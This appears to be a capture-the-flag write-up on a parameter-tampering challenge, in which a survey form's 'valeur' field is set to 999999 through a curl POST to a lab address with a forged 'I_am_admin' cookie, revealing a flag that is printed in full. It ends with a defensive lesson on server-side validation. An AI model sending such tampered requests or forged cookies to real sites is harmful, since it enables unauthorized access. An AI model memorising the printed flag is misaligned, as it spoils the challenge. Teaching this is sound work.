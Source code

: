 ## 🧩 Solution to the Challenge – Parameter Tampering in Survey Submission

### 🔍 Discovery

While analyzing the survey page of the site:

<img width="1437" height="852" alt="Capture d’écran 2025-07-14 à 17 29 50" src="https://github.com/user-attachments/assets/335308cd-410e-4f80-b83e-05e7c5c8508a" />


I noticed that the form submitted two parameters:

<img width="1136" height="604" alt="Capture d’écran 2025-07-11 à 17 22 50" src="https://github.com/user-attachments/assets/075c3ed3-5c03-4626-ab92-3055cd845003" />


The full POST request looked like this:

<img width="1422" height="753" alt="Capture d’écran 2025-07-11 à 18 05 34" src="https://github.com/user-attachments/assets/79d1157f-3826-4ba8-9584-1bfb259ea1b7" />


The `valeur` parameter seemed suspicious. I decided to test whether altering it manually could change the application’s behavior.

---

### 🧪 Exploitation

To exploit this, I sent a modified request using **Burp Suite** or **curl**, changing the `valeur` field to an unexpected number:

``curl -X POST "http://192.168.1.56/?page=survey" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -H "Cookie: I_am_admin=68934a3e9455fa72420237eb05902327" \
  --data "sujet=2&valeur=999999"``

After sending this payload, the server responded differently — revealing the hidden **flag**.

```03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa```

---

### 🛠️ Technical Insight

The challenge relied on **parameter-based access control**. The server used the `valeur` parameter directly in logic without proper validation or bounds checking.

Since this parameter is **fully controlled by the client**, modifying it allowed bypassing the expected workflow and accessing sensitive content — in this case, the flag.

This is a classic example of **parameter tampering**, where application logic can be manipulated by editing user-supplied fields.

---

### ✅ Conclusion

> 🧠 **Takeaway**: Always ensure that critical logic on the server is protected from client-side manipulation. Never trust form fields or URL parameters for decision-making without proper validation and authorization.
